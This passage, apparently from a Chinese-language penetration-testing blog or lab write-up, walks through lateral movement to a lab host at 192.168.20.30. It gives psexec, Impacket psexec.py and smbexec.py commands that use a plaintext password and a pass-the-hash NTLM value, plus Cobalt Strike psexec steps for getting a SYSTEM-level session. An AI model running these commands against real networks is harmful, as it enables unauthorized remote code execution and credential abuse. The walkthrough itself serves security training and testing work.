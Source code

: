 这个工具经过测试，本地无法进行连接上目标主机，已经设置代理转发了，但是还是不行，这里就把命令演示一下吧，我个人感觉连接不上的原因还是由于没走设置的socks代理，但是我设置了半天还是不行。

```
psexec \\192.168.20.30 -u administrator -p admin@123 -s cmd
psexec -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.30 
```

## 套件中psexec

这里本地上使用的是套件中的psexec能够执行成功，不过这个只能使用hash值来进行连接，并且不是官方的容易被干。

```
python psexec.py -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.30
```

![image-20230629121006764](https://s2.loli.net/2023/06/30/6cnR718SYTANJqd.png)

## CS插件psexec演示

关于psexec，在cs中是自带这个工具的，这里演示一下，前提就是将所有的密码都抓取到，以及目标列表。

### 设置转发上线

这里需要设置一个转发上线，想必应该也知道为什么，因为目标无法出网啊。

![image-20230629121908780](https://s2.loli.net/2023/06/30/TQGu532yawlgdjD.png)

### 选择目标

这里我就选择这个192.168.20.30作为目标进行横向移动。

![image-20230629121628522](https://s2.loli.net/2023/06/30/RTbi1ONVIykXpuL.png)

### 设置psexec

这里我们选择一个密码，当然啦，实际中你可能不知道密码，那么就一个个测试被，要注意，psexec64是不支持hash密码的，可以选择psexec来上线，域的话，要删除，不让容易无法上线，监听器就设置之前转发上线的监听器，会话选择system权限的。

![image-20230629122011896](https://s2.loli.net/2023/06/30/ebr8ExcOVCRnl1y.png)

### 查看上线效果

可以看到成功上线，所以关于psexec，说真的，如果socks能够代理成功，那么本地执行挺好的，如果无法，那么就使用cs中自带的这个psexec来执行也不错。

![image-20230629122219291](https://s2.loli.net/2023/06/30/eoW4yvtESrdjX52.png)

# smbexec

这个也是wmiexec-impacket套件中的工具，和psexec是差不多的用法，当然这里也是要开代理的。

```
python smbexec.py ./administrator:admin@123@192.168.20.30 
python smbexec.py -hashes :579da618cfbfa85247acf1f800a280a4 administrator@192.168.20.30  
```
